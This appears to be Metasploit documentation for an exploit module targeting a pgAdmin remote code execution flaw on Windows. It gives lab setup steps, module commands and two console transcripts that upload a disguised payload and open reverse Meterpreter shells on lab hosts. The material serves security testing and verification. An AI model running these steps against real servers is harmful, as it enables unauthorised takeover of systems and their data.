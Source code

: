 ## Vulnerable Application
The pgAdmin versions up to 8.4 are vulnerable to a Remote Code Execution (RCE) flaw through the validate binary path API.
This vulnerability allows attackers to run arbitrary code on the server hosting pgAdmin, which poses a significant
threat to the integrity of the database management system and the security of its underlying data.

The exploit can be executed in both authenticated and unauthenticated scenarios. When valid credentials are available,
Metasploit can log in to pgAdmin, upload a malicious payload using the file management plugin, and then execute it via
the validate_binary_path endpoint. This vulnerability is specific to Windows targets. If authentication is not required
by the application, Metasploit can directly upload and trigger the payload through the validate_binary_path endpoint.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/pgadmin_binary_path_api`
1. Set the `RHOST`, `PAYLOAD`, and optionally the `USERNAME` and `PASSWORD` options
1. Do: `run`


### Installation (Windows)

These steps are the bare minimum to get the application to run for testing and should not be use for a production setup.
For a production setup, a server like Apache should be setup to run pgAdmin through it's WSGI interface.

**The following paths are all relative to the default installation path `C:\Program Files\pgAdmin 4\web`**.

1. [Download][1] and install the Windows build
1. Copy the `config_distro.py` file to `config_local.py`
1. Edit `config_local.py` and set `SERVER_MODE` to `True`
1. Initialize the database: `..\python\python.exe setup.py setup-db`
1. Create an initial user account: `..\python\python.exe setup.py add-user --admin test@test.com 123456`
1. Run the application: `..\python\python.exe pgAdmin4.py`

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### pgAdmin 8.4 on Windows (Authenticated)

```
msf6 exploit(windows/http/pgadmin_binary_path_api) > set RHOSTS 192.168.1.5
RHOSTS => 192.168.1.5
msf6 exploit(windows/http/pgadmin_binary_path_api) > set USERNAME test@test.com
USERNAME => test@test.com
msf6 exploit(windows/http/pgadmin_binary_path_api) > set PASSWORD 123456
PASSWORD => 123456
msf6 exploit(windows/http/pgadmin_binary_path_api) > set LHOST 192.168.1.6 
LHOST => 192.168.1.6
msf6 exploit(windows/http/pgadmin_binary_path_api) > exploit 

[*] Started reverse TCP handler on 192.168.1.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. pgAdmin version 8.4.0 is affected
[*] Successfully authenticated to pgAdmin
[*] Payload uploaded to: C:\Users\pgAdmin\Desktop\CVE-2024-3116\pgadmin4\storage\test_test.com/pg_restore.exe
[*] Sending stage (201798 bytes) to 192.168.1.5
[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.5:52588) at 2024-08-26 19:48:10 +0200
[!] This exploit may require manual cleanup of 'C:\Users\pgAdmin\Desktop\CVE-2024-3116\pgadmin4\storage\test_test.com/pg_restore.exe' on the target

meterpreter > sysinfo
Computer        : DESKTOP-FMNV75N
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 

```

### pgAdmin 8.4 on Windows (Unauthenticated)

```
msf6 exploit(windows/http/pgadmin_binary_path_api) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf6 exploit(windows/http/pgadmin_binary_path_api) > set LHOST 192.168.1.6 
LHOST => 192.168.1.6
msf6 exploit(windows/http/pgadmin_binary_path_api) > exploit 

[*] Started reverse TCP handler on 192.168.1.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. pgAdmin version 8.4.0 is affected
[*] Payload uploaded to: C:\Users\pgAdmin\pg_restore.exe
[*] Sending stage (200774 bytes) to 192.168.1.7
[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.7:55560) at 2024-08-26 19:51:01 +0200
[!] This exploit may require manual cleanup of 'C:\Users\pgAdmin\pg_restore.exe' on the target

meterpreter > sysinfo
Computer        : DESKTOP-HTGS43E
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 

```

